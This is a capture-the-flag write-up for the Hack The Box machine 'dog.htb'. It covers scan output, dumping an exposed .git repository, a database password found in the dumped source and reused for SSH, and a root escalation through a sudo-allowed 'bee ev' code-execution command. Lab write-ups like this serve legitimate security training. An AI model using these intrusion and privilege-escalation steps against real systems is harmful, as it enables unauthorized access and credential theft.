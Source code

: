 ```yaml
---
title: dog.htb
date: 2025-03-08
categories:
  - hackthebox
tags:
  - ctf
  - htb
  - linux
  - easy
---
```

## User flag

As always we start off with a nmap scan.
### nmap
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-08 22:24 CET
Nmap scan report for 10.10.11.58
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
```

Appearently there is http server running on port 80 and it seems a .git repo was detected by nmap.

We should always try to enumerate the webserver for folders.
### dirsearch
```[22:28:45] Starting:                                                                                                         
[22:28:47] 301 -  301B  - /.git  ->  http://dog.htb/.git/                   
[22:28:47] 200 -  405B  - /.git/branches/                                   
[22:28:47] 200 -   95B  - /.git/COMMIT_EDITMSG
[22:28:47] 200 -   92B  - /.git/config
[22:28:47] 200 -   73B  - /.git/description
[22:28:47] 200 -   23B  - /.git/HEAD                                        
[22:28:47] 200 -  601B  - /.git/
[22:28:47] 200 -  648B  - /.git/hooks/                                      
[22:28:47] 200 -  453B  - /.git/info/                                       
[22:28:47] 200 -  240B  - /.git/info/exclude                                
[22:28:47] 200 -  473B  - /.git/logs/                                       
[22:28:47] 200 -  230B  - /.git/logs/HEAD
[22:28:47] 301 -  311B  - /.git/logs/refs  ->  http://dog.htb/.git/logs/refs/
[22:28:47] 301 -  317B  - /.git/logs/refs/heads  ->  http://dog.htb/.git/logs/refs/heads/
[22:28:47] 200 -  230B  - /.git/logs/refs/heads/master
[22:28:47] 301 -  312B  - /.git/refs/heads  ->  http://dog.htb/.git/refs/heads/
[22:28:47] 200 -  456B  - /.git/refs/
[22:28:47] 200 -   41B  - /.git/refs/heads/master
[22:28:47] 301 -  311B  - /.git/refs/tags  ->  http://dog.htb/.git/refs/tags/
[22:28:47] 200 -  337KB - /.git/index                                       
[22:28:47] 200 -    2KB - /.git/objects/                                    
[22:28:48] 403 -  272B  - /.ht_wsr.txt                                      
[22:28:48] 403 -  272B  - /.htaccess.bak1                                   
[22:28:48] 403 -  272B  - /.htaccess.orig                                   
[22:28:48] 403 -  272B  - /.htaccess.sample
[22:28:48] 403 -  272B  - /.htaccess.save
[22:28:48] 403 -  272B  - /.htaccess_extra                                  
[22:28:48] 403 -  272B  - /.htaccess_orig
[22:28:48] 403 -  272B  - /.htaccess_sc
[22:28:48] 403 -  272B  - /.htaccessBAK
[22:28:48] 403 -  272B  - /.htaccessOLD
[22:28:48] 403 -  272B  - /.htaccessOLD2
[22:28:48] 403 -  272B  - /.htm                                             
[22:28:48] 403 -  272B  - /.html                                            
[22:28:48] 403 -  272B  - /.htpasswd_test                                   
[22:28:48] 403 -  272B  - /.httr-oauth
[22:28:48] 403 -  272B  - /.htpasswds
[22:28:48] 403 -  272B  - /.php                                             
[22:28:54] 301 -  301B  - /core  ->  http://dog.htb/core/                   
[22:28:55] 301 -  302B  - /files  ->  http://dog.htb/files/                 
[22:28:55] 200 -  584B  - /files/                                           
[22:28:56] 200 -    4KB - /index.php                                        
[22:28:56] 404 -    2KB - /index.php/login/                                 
[22:28:57] 200 -  453B  - /layouts/                                         
[22:28:57] 200 -    7KB - /LICENSE.txt                                      
[22:28:58] 301 -  304B  - /modules  ->  http://dog.htb/modules/             
[22:28:58] 200 -  400B  - /modules/                                         
[22:29:00] 200 -    5KB - /README.md                                        
[22:29:00] 200 -  528B  - /robots.txt                                       
[22:29:01] 403 -  272B  - /server-status                                    
[22:29:01] 403 -  272B  - /server-status/
[22:29:01] 200 -    0B  - /settings.php                                     
[22:29:01] 301 -  302B  - /sites  ->  http://dog.htb/sites/                 
[22:29:02] 301 -  303B  - /themes  ->  http://dog.htb/themes/               
[22:29:02] 200 -  451B  - /themes/                                          
```

We can use the tool git-dumper to dump the git repository and look for credentials found in the source code.

```bash
git-dumper http://dog.htb/.git/  ./dog-git
```

We can try to grep the files for users and passwords.

```bash
grep -r "@dog.htb"
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

There is also a settings.php file containing a password.
```bash
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

### shell

Using those credentials we can login into the the website hosted on port 80 and upload a file which gives us a shell.

![[Pasted image 20250323203931.png]]


![[Pasted image 20250323204024.png]]



Once we get a shell we can enumerate the box. There is a mysql database running which has credentials. 

### credentials
```
ssh johncusack@dog.htb
BackDropJ2024DS2024

```

### root 

We can login via ssh with those credentials. Running sudo -l we see there is a command which can be run by the user.

```bash
sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

Running the following sudo command we get to execute code as root.

```bash
sudo /usr/local/bin/bee ev "system 'whoami');" 
﻿root
```


## Summary 

Through a combination of thorough enumeration, exploiting misconfigurations, and leveraging discovered credentials, we successfully gained access to the target machine. By exploiting a vulnerable command allowed via `sudo`, we escalated our privileges to root, completing the challenge. This CTF highlights the importance of meticulous reconnaissance, understanding common vulnerabilities, and the effective use of tools to achieve privilege escalation.